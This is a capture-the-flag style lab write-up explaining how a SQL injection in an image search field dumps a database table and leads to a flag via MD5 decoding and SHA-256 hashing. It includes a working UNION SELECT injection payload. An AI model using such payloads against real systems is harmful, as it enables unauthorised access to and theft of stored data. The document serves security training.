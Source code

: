 # SQL Injection: Searc Images

In the same way as the members page, the search images page has an input field to search for images. Let's do the same process to check if the input is vulnerable to SQL injection. When we list the tables, we can see a `list_images` table with the following columns:
```
comment,title,url,id
```
Now list the rows of the `list_images` table:
```SQL
1 UNION ALL SELECT id, CONCAT(0xa, comment, 0xa, title, 0xa, url) FROM list_images
```
One of the rows is:
```
Title: 
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Hack me ?
borntosec.ddns.net/images.png
Url : 5
```
If we decode `1928e8083cf461a51303633093573c46` in MD5 we get `albatroz`. Then encrypt it with SHA256 and lower all:
```bash
echo -n "albatroz" | sha256sum | cut -d ' ' -f 1
```
We get the flag.

# How to prevent it
Same as the previous snippet.